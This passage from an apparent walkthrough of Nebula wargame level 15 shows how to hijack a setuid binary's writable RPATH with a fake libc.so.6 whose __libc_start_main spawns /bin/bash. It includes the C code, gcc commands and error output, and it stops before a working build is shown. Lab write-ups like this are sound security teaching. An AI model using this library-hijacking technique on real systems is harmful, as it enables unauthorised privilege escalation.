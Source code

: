 So puting it all together - it looks like the binary is trying to load *libc.so.6* from *RPATH*, which is */var/tmp/flag15*. Since we can write there - we can place a malicious *libc.so.6* file
and wait for the binary to load it.

The *flag15* binary has a few functions that we can work with:

{{< codecaption lang="sh" title="Functions" >}}
level15@nebula:/var/tmp/flag15$ objdump -R /home/flag15/flag15 

/home/flag15/flag15:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a000 R_386_JUMP_SLOT   puts
0804a004 R_386_JUMP_SLOT   __gmon_start__
0804a008 R_386_JUMP_SLOT   __libc_start_main
{{< /codecaption >}}

The *__libc_start_main* seems like the best candidate since it is executed upon loading the shared library.
A simple library code to try to execute bash:
{{< codecaption lang="c" title="Library Code" >}}
#include <stdio.h>

int __libc_start_main(int (*main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/bash");
}
{{< /codecaption >}}

However, the library does not work:
{{< codecaption lang="sh" title="Library Error" >}}
level15@nebula:/var/tmp/flag15$ gcc -shared -fPIC -o libc.so.6 lib.c
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /home/flag15/flag15)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: no version information available (required by /var/tmp/flag15/libc.so.6)
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
level15@nebula:/var/tmp/flag15$ 
{{< /codecaption >}}

Some Googling shows that the "version" error can be solved by linking *version-script*:
{{< codecaption lang="sh" title="Version Script" >}}
level15@nebula:/var/tmp/flag15$ cat version.txt 
GLIBC_2.0 {
};
level15@nebula:/var/tmp/flag15$ gcc -fPIC -shared -Wl,--version-script=version.txt -o libc.so.6 lib.c
level15@nebula:/var/tmp/flag15$ /home/flag15/flag15 
/home/flag15/flag15: /var/tmp/flag15/libc.so.6: version `GLIBC_2.1.3' not found (required by /var/tmp/flag15/libc.so.6)
level15@nebula:/var/tmp/flag15$ 
{{< /codecaption >}}

